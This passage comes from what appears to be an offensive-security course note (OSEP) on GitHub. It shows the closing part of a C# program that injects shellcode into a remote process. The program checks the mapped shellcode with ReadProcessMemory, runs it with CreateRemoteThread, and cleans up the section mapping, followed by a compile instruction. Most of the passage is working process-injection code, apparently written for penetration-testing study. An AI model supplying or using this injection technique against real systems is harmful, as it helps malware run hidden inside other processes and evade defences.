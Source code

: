 ```cs
            // DEBUG: Read memory at remote address and verify it's the same as the intended shellcode
            byte[] remoteMemory = new byte[len];
            IntPtr noBytesRead = new IntPtr();
            bool result = ReadProcessMemory(pHandle, baseAddrR, remoteMemory, remoteMemory.Length, out noBytesRead);
            bool sameSame = ByteArrayCompare(buf, remoteMemory);
            Console.WriteLine($"DEBUG: Checking if shellcode is correctly placed remotely...");
            if (sameSame != true)
            {
                Console.WriteLine("DEBUG: NOT THE SAME! ABORTING EXECUTION.");
                return;
            }
            else
            {
                Console.WriteLine("DEBUG: OK.");
            }
            // END DEBUG

            // Execute the remotely mapped memory
            IntPtr hThread = CreateRemoteThread(pHandle, IntPtr.Zero, 0, baseAddrR, IntPtr.Zero, 0, IntPtr.Zero)

			// Cleanup
            uint uStatusL = NtUnmapViewOfSection(lHandle, baseAddrL); // Unmap the locally mapped section view
            int clStatus = NtClose(sHandle); // Close the section to free resources
        }
    }
}
```

### Compile and excute

**Before compiling the project, set the CPU architecture to x64**

![](https://raw.githubusercontent.com/col-1002/OSEP-Course/main/Attachment/set%20the%20CPU%20architecture%20to%20x64_v1.png)
